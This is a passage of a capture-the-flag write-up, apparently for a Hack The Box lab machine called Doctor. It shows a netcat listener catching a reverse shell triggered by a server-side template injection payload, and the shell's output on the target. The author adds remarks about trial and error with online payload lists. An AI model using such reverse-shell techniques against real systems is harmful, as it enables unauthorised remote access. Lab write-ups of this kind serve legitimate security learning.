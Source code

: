 ![80 SSTI Test](screenshots/80_doctors_ssti_3.png)

After browsing to the archive page, the payload was triggered and got a reverse shell.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.209] 46040
bash: cannot set terminal process group (823): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$ id
id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

This process was quite difficult for someone new to SSTI and required lots of trial and error to get code execution. For anyone reading this, I basically just read the HackTricks article from start to end, trying different payloads. I think I created about 20 accounts on the web application trying to get a shell! Try harder I guess?!
